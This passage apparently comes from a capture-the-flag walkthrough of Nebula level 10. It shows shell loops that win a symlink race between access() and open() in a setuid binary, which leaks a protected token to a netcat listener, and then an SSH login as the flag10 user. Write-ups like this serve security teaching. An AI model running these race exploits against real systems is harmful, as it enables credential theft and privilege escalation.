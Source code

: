Note that these commands aren't chained, but they run independent of each other (forked and run asynchronously in a separate sub-shell). You can read more here about the [use of & on the command line](http://bashitout.com/2013/05/18/Ampersands-on-the-command-line.html)

There is another alternative way I completed it, by following the example of the race condition attacks on [pages 16-19](https://iseclab.org/secprog/slides/secprog-6.pdf) (there are nice diagrams helping with the explanation). Again, with netcat listening and 2 terminals on the Nebula machine, in one I run:

``` plain
level10@nebula:/tmp$ while true; do touch dummy; ln -sf dummy tok; rm -f tok; ln -sf /home/flag10/token tok; done
```

And in the other:

``` plain
level10@nebula:/home/flag10$ while true; do ./flag10 /tmp/tok 192.168.80.130; done
```

When *tok* is passed to *access()*, everything is fine, but before the *open()* call, *tok* has been replaced with a symlink to the token, which *open()* happily reads.

To finish, I used the token to SSH in as the flag10 user and run *getflag*:

``` plain
flag10@nebula:~$ getflag
You have successfully executed getflag on a target account
```


``` plain
 _________________________________________
/ Better hope the life-inspector doesn't  \
| come around while you have your life in |
\ such a mess.                            /
 -----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

